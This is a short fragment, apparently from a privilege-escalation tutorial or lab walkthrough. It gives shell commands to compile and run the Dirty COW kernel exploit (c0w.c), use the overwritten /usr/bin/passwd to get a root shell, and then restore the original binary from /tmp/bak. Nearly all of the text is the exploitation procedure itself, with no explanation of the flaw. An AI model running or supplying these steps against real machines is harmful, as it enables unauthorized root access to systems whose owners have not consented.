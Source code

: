 `gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w`\
`./c0w`

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`

Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!

`mv /tmp/bak /usr/bin/passwd`\
`exit`

